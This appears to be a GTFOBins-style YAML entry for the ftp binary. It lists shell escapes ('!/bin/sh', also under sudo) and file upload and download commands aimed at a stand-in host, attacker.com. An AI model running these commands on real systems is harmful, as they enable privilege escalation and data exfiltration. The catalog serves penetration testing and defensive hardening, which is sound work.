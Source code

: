 ```yaml
---
functions:
  exec-interactive:
    - code: |
        ftp
        !/bin/sh
  sudo-enabled:
    - code: |
        sudo ftp
        !/bin/sh
  upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
---
```

